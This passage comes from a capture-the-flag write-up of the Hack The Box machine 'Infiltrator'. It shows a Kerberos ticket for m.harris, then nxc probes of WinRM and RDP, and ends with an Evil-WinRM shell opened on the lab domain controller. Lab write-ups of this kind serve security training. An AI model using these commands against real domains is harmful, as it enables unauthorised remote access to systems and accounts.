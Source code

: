 After all that, we now have a ticket for m.harris:

```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ klist   
Ticket cache: FILE:m.harris.ccache
Default principal: m.harris@INFILTRATOR.HTB

Valid starting       Expires              Service principal
05/13/2025 22:13:55  05/14/2025 02:13:55  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
        renew until 05/14/2025 02:13:55
```

Sweet! m.harris is a member of two groups, developers and remote management. This gives us a good idea of their capabilities. We should certainly check rdp and winrm. Since we will be using evil-winrm with kerberos, we want to setup our realm. we can do this with the following little script: [https://gist.github.com/zhsh9/f1ba951ec1eb3de401707bbbec407b98](https://gist.github.com/zhsh9/f1ba951ec1eb3de401707bbbec407b98)

If you have issues, manually check your config file for obvious errors, like "dc01.infiltrator.htb.htb" or something similar. Now lets run nxc against winrm and see what we find:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ nxc winrm 10.129.119.60 -u m.harris -k -d infiltrator.htb --use-kcache --dns-server dc01.infiltrator.htb
WINRM       10.129.119.60   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ nxc rdp 10.129.119.60 -u m.harris -k -d infiltrator.htb --use-kcache --dns-server dc01.infiltrator.htb
RDP         10.129.119.60   3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:infiltrator.htb) (nla:True)
RDP         10.129.119.60   3389   DC01             [-] infiltrator.htb\m.harris from ccache 
                                                                                                                                                                                                               
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ nxc winrm 10.129.119.60 -u m.harris -k -d infiltrator.htb --kdcHost dc01.infiltrator.htb --use-kcache --dns-server dc01.infiltrator.htb
WINRM       10.129.119.60   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
```
{% endcode %}

I could not get a response on winrm for some reason, but rdp came back negative. Let's try using winrm manually and see what happens:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ evil-winrm -i dc01.infiltrator.htb -u 'm.harris' -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> 
```
{% endcode %}

